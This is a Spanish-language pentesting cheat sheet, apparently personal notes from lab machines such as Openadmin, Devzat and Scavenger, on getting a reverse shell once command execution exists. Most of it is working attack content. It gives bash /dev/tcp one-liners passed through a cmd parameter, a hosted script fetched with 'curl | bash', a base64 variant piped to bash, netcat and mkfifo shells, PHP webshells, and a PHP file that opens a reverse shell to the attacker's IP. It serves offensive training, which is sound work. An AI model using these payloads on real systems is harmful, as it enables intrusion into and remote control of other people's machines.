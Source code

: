 ```yaml
---
title: Conseguir Reverse Shell
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajón Verde]
tags: [Linux, Reverse Shell]
---
```

## Maneras de lanzarme una reverse shell

En todos los casos se entiende que tengo ejecución remota de comandos(RCE) y tengo el netcat en escucha por un puerto:
```
> nc -nlvp 443
```
[monkey]:https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Tienes varias formas de realizar una reverse shell en la página de [monkeypentester][monkey].

Caso 1 - Directo:  
Me pongo en escucha por el 443, entonces en el navegador, después del parámetro/argumento que te permita la ejecución, escribo:  
`?cmd=bash -c 'bash -i >& /dev/tcp/Mi_Ip/puerto 0>&1'`  
Si no te llega la bash prueba a url-encodear el &, url-encodeado sería %26

Caso 2 - Index.html y bash:

Otra forma diferente a la anterior, porque el **bash -i** a veces puede dar problemas por url. Despúes del parámetro que sea:  
`which curl` ,si no está en la máquina, intenta `which wget`  

Ahora si cuento con alguna de ellas me monto un servidor web con python:  
`python -m http.server 80`  
Y en la misma carpeta que comparto el servidor creo un index.html que se ejecutará cuando se conecte la víctima interpretándolo con el bash que indique en el comando. Ese index.html es así:  
``` bash
#!/bin/bash
bash -i >& /dev/tcp/miip/puerto 0>&1
```
Y ahora desde el RCE ejecuto esta instrucción; `curl http://Mi_ip|bash`  
Un ejemplo en la máquina **Openadmin**.  

En máquina **Devzat** se pasa a base64 porque no dispone de curl. Se hace esto: 
```
> base64 -w 0 index.html
```
Y ya desde el RCE:  
`echo <cadenaenBase64>| base64 -d|bash`

Caso 3 - Con Netcat:

`nc -e /bin/bash <miip> 443`  
Si en algún momento ves que no os entabla la reverse shell probar:  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc MIIP MIPUERTO >/tmp/f`  
Hay casos que nc no tiene la opción -e y tenéis que tirar de el nc antiguo.

Caso 4 - FakeShell:

Contexto: En máquina **Scavenger** tenemos rce via web desde un php de la máquina objetivo. Probamos a lanzarnos una reverse pero no hay manera, tanto con el nc ,con bash -c, con wget, curl..pero nada.  
Asi que s4vi se construye una **fakeshell** con bash.

Caso 5 - Mediante WebShells:

Estructuras tipo webshells mediante subida archivo php:

``` php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
``` php
<?php system($_GET['cmd']); ?>
```
Recuerda que llamas directamente al archivo php que esta alojado dentro de la máquina víctima, seguido del ?cmd=COMANDO  
cmd es el parámetro que le solemos poner pero puede ser cualquier otro.

Recuerda el comando **phpinfo()** para saber que funciones hay deshabilitadas y y cuales no.

Si quisieras lanzar reverse directamente desde el php subido ya no sería webshell, y es así:  
``` php
<?php
   system("bash -c ' bash -i >& /dev/tcp/<miIp>/443 0>&1'");
?>
```
Con llamar al archivo bastaría.











